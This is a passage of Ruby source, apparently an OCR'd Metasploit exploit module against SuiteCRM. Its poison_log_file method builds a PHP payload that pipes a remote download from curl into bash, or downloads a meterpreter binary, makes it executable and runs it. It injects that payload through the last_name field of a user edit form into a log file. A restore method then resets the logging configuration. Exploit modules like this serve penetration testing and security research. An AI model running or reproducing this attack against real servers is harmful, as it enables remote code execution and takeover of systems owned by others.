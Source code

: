        res = post_log_file(data)
        check_logfile_request(res, action)
      end

      def poison_log_file
        action = 'Poison log file'
        if target.arch.first == 'cmd'
          command_injection = "<?php `curl #{@download_url} | bash`; ?>"
        else
          @meterpreter_fname = "#{datastore['WRITABLEDIR']}/#{rand_text_alphanumeric(8)}"
          command_injection = %(
            <?php `curl #{@download_url} -o #{@meterpreter_fname};
            /bin/chmod 700 #{@meterpreter_fname};
            /bin/sh -c #{@meterpreter_fname};`; ?>
          )
        end

        print_status("Trying - #{action}")

        data = Rex::MIME::Message.new
        data.add_part('Users', nil, nil, 'form-data; name="module"')
        data.add_part('1', nil, nil, 'form-data; name="record"')
        data.add_part('Save', nil, nil, 'form-data; name="action"')
        data.add_part('EditView', nil, nil, 'form-data; name="page"')
        data.add_part('DetailView', nil, nil, 'form-data; name="return_action"')
        data.add_part(datastore['USER'], nil, nil, 'form-data; name="user_name"')
        data.add_part(command_injection, nil, nil, 'form-data; name="last_name"')

        res = post_log_file(data)
        check_logfile_request(res, action)
      end

      def restore
        action = 'Restore logging to default configuration'
        print_status("Trying - #{action}")

        data = Rex::MIME::Message.new
        data.add_part('SaveConfig', nil, nil, 'form-data; name="action"')
        data.add_part('Configurator', nil, nil, 'form-data; name="module"')
        data.add_part('suitecrm', nil, nil, 'form-data; name="logger_file_name"')
        data.add_part('.log', nil, nil, 'form-data; name="logger_file_ext"')
        data.add_part('fatal', nil, nil, 'form-data; name="logger_level"')
        data.add_part('Save', nil, nil, 'form-data; name="save"')

        post_log_file(data)

        data = Rex::MIME::Message.new
        data.add_part('Users', nil, nil, 'form-data; name="module"')
        data.add_part('1', nil, nil, 'form-data; name="record"')
        data.add_part('Save', nil, nil, 'form-data; name="action"')
        data.add_part('EditView', nil, nil, 'form-data; name="page"')
        data.add_part('DetailView', nil, nil, 'form-data; name="return_action"')
        data.add_part(datastore['USER'], nil, nil, 'form-data; name="user_name"')
        data.add_part(datastore['LASTNAME'], nil, nil, 'form-data; name="last_name"')
